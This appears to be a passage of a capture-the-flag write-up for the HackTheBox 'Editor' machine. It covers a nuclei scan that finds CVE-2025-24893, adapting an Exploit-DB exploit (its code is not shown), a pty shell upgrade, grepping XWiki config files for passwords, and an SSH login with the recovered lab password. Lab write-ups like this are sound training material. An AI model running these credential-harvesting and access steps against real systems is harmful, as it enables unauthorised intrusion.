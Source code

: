 # Editor - HackTheBox 

## 1.2 Nuclei scan for vulnerabilities

Performed to identify known vulnerabilities in the machine's HTTP service:

```bash
nuclei -u http://wiki.editor.htb -o nuclei.txt
```

* The scan identified the vulnerability CVE-2025-24893 (details looked up on Exploit-DB)

---

## 2. Exploitation

### 2.1 Exploit adjustment

Based on the exploit found at [Exploit-DB #52136](https://www.exploit-db.com/exploits/52136), it was necessary to modify the HTTPS address to work correctly against the target.

### 2.2 Interactive shell access

Python interactive shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## 3. Enumeration

### 3.1 User directories

Listing the `/home` directory to discover system users:

```bash
ls /home
```

Output:

```
oliver
```

### 3.2 Searching for passwords in configuration files

Searched for possible passwords inside the `/etc/xwiki` directory:

```bash
grep -iR "pass" /etc/xwiki/*
```

Found the password:

```
theEd1t0rTeam99
```

---

## 4. SSH access

With the discovered user and obtained password, it was possible to connect via SSH:

```bash
ssh -4 oliver@editor.htb
```

* `-4`: force IPv4 connection
* User: `oliver`
* Password: `theEd1t0rTeam99`

---
